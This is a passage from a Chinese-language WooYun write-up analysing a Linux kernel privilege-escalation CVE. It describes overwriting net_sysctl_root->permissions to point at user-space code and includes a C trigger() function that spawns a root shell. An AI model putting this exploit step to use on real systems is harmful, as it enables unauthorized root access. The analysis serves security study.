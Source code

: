 执行完毕后，提权程序成功将`permissions`指向了填充了提权代码的用户空间中。注意：这里必须从高位开始处理，由于各个程序是并行处理的，因此无法准确的保证 timeout 值和 sleep 值完全匹配，又由于 timeout 值的 tv_sec>=0，因此只要从高位依次处理就可以避免借位的情况发生。这里也是结构体选取的条件之一。

由于`0xff*3 = 765`,因此该提权程序需要 13 分钟才能将`permissions`指向的地址值变成用户空间的地址值。

万事具备，只欠东风。只要用户调用修改后的`net_sysctl_root->permissions`即可。

```
void trigger() {
    open("/proc/sys/net/core/somaxconn",O_RDONLY);

    if(getuid() != 0) {
        fprintf(stderr,"not root, ya blew it!\n");
        exit(-1);
    }

    fprintf(stderr,"w00p w00p!\n");
    system("/bin/sh -i");
}

```

到此，该 CVE 分析完毕。不得不说该 CVE 的原理虽然比较简单，但实现最后利用修过的手法还是非常巧妙的，值得学习。

**参考**

1、[`en.wikipedia.org/wiki/X32_ABI`](http://en.wikipedia.org/wiki/X32_ABI)

版权声明：未经授权禁止转载 [seteuid0](http://drops.wooyun.org/author/seteuid0 "由 seteuid0 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Windows 内核提权漏洞 CVE-2014-4113 分析报告](http://drops.wooyun.org/papers/3324)
*   [Exploiting “BadIRET” vulnerability (CVE-2014-9322, Linux kernel privilege escalation)](http://drops.wooyun.org/papers/4860)
*   [浅谈互联网中劫持的一些事情](http://drops.wooyun.org/tips/127)
*   [31C3 CTF web 关 writeup](http://drops.wooyun.org/papers/4525)
*   [安卓 Bug 17356824 BroadcastAnywhere 漏洞分析](http://drops.wooyun.org/papers/3912)
*   [HCTF writeup(web)](http://drops.wooyun.org/tips/4070)